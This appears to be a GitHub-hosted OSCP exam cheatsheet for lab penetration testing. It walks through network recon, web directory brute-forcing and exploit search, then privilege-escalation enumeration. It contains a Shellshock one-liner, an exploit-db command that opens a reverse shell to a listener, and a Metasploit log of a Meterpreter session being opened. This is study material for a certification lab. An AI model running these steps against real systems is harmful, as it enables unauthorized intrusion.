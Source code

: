 # OSCP
OSCP Exam Cheatsheet.

# Index

- [Introduction](#introduction) 

# Content

### PREPARATION
Kali Wordlists: `/usr/share/wordlists`  
SecLists: https://github.com/danielmiessler/SecLists

Useful Tools:
```bash
$ enum4linux [ target_ip ]	# Enumerate Windows / Samba (SMB) hosts.
```

### RECON
Scan network range for valid IPs/hostnames:  
```bash
i="0"
while [ $i -lt "255" ]
do nslookup 10.11.1.$i 10.11.1.220 | grep -v "NXDOMAIN" | grep name
	i=$[ $i+1 ]
done
```

Nmap port scans:
(NOTE: Heavy scanning may result in ports being filtered/closed - wait <15 minutes to be unbanned)
```bash
$ nmap 10.11.1.71 --top-ports 20 --open	# Top 20 TCP ports scan on initial box
$ nmap 10.11.1.71 -p- -sV		# Complete TCP port scan + service banner grab on each box:
```

Services enum:
* SSH (22): Fingerprint server/OS, SSH key
* HTTP (80|8080): Curl for HTTP header
* Telnet (23):
* SMTP (25):
* Service (port):

For each service, check available Nmap scripts:
```bash
$ ls -l /usr/share/nmap/scripts/*ssh*
```

Summarise your recon findings on the target:
* IP / DNS?
* OS?
* Ports (TCP / UDP)?
* Services / Applications?
* Which is the best entry point so far?
* Prioritised list of attack vectors:
	* Explore the web application.
	* Search for vulnerabilities in the known services & applications.
	* Brute force SSH with common & weak credentials.


### DEEPER RECON (SERVICE-LEVEL) - WEBAPP EXAMPLE

Scripts:
```bash
$ curl -i -L 10.11.1.71 						  # Follow re-directs
$ curl 10.11.1.71 -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//' # Internal/external links
$ gobuster -u http://10.11.1.71/ \					  # Directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/common.txt \
	   -s '200,204,301,302,307,403,500' -e
$ gobuster -u http://10.11.1.71/cgi-bin/ \				  # 2nd directory brute-force
	   -w /usr/share/seclists/Discovery/Web_Content/cgis.txt \
	   -s '200,204,403,500' -e
```

Other things to check:
* robots.txt
* social media
* source code (if app is based on open-source code)

Re-evaluate attack surface:
* Any new findings to add to our list of attack vectors?

### FINDING AN EXPLOIT TO USE

Nikto webapp scanner:
```bash
$ nikto -host 10.11.1.71
```

Searchsploit (exploit-db):
```bash
# BASE EXAMPLE
$ searchsploit [options] [search_term1] [search_term2] . . . [search_termN]

# APACHE 2.4.8 EXAMPLE
$ searchsploit apache 2.4 | grep -v '/dos/'
$ searchsploit apache 2.x | grep -v '/dos/'

# APACHE | CGI
$ searchsploit apache cgi | grep -v '/dos/'

# WORKING EXPLOIT CODE FOUND IN:
/usr/share/exploitdb/platforms/linux/remote/34900.py
```

Nmap:
```bash
$ ls -l /usr/share/nmap/scripts/*shellshock*
```

Other areas to find exploit code:
* Google Shellshock POC
* Google one-liners from github

If no good attack vectors / exploit can be found, try a different or more comprehensive wordlist for subdirectory brute-forcing or use a webapp scanner to poke harder at the system.

### USING EXPLOIT CODE

METHOD #1: MANUAL
```bash
env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id	# Src: Github one-liner
```

METHOD #2: EXPLOIT-DB
```bash
$ cp /usr/share/exploitdb/platforms/linux/remote/34900.py alpha.py
$ python alpha.py payload=reverse rhost=10.11.1.71 lhost=10.11.0.31 lport=4444 pages=/cgi-bin/admin.cgi
10.11.1.71>
```

METHOD #3: METASPLOIT (NOT PREFERRED)
```bash
$ systemctl start postgresql
$ msfdb init
$ msfdb start
$ msfconsole
msf > search shellshock
msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf exploit(apache_mod_cgi_bash_env_exec) > show options
. . .
msf exploit(...) > run
[*] Started reverse TCP handler on 10.11.0.42:443
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (826872 bytes) to 10.11.1.71
[*] Meterpreter session 1 opened (10.11.0.42:443 -> 10.11.1.71:34930) at 2018-12-18 13:53:55 +1100
meterpreter > exit
. . .
msf exploit(apache_mod_cgi_bash_env_exec) > rerun
```

You will now have reverse shell.

### PRIVILEGE ESCALATION - ENUM

Get a proper shell:


Linux privesc:
* https://github.com/rebootuser/LinEnum (automated scan)
* https://tools.kali.org/vulnerability-analysis/unix-privesc-check (Kali tool)
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  

Windows privesc:
* https://github.com/azmatt/windowsEnum (automated scan)
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md
* http://www.fuzzysecurity.com/tutorials/16.html

Questions to ask:
* What user files do we have access to?
* What configurations do we have access to?
* Any incorrect file permissions?
* What programs are custom? Any SUID? SGID?
* What's scheduled to run?
* Any hardcoded credentials? Where are credentials kept?

Privesc Enum:
```bash
# OS? Version? Architecture?
$ cat /etc/*-release
$ uname -i
$ lsb_release -a (Debian)
 
# Who are we? Where are we? What are our sudo privileges?
$ id
$ pwd
$ sudo -l
 
# Other users? Which ones have a valid shell?
$ cat /etc/passwd
$ grep -vE "nologin|false" /etc/passwd
 
# Services running on the box? Network services running?
ps aux
netstat -antup
 
# Whats installed? Kernel?
dpkg -l (Debian)
rpm -qa (CentOS / openSUSE)
uname -a
```

Summarise possible attack vectors / vulnerable services to escalate privileges.

### PRIVILEGE ESCALATION - FINDING EXPLOIT

Use information gathered from enumeration stage to find an exploit for vectors / vulnerable services in your list.

Windows:
* https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md

Linux:
* Link









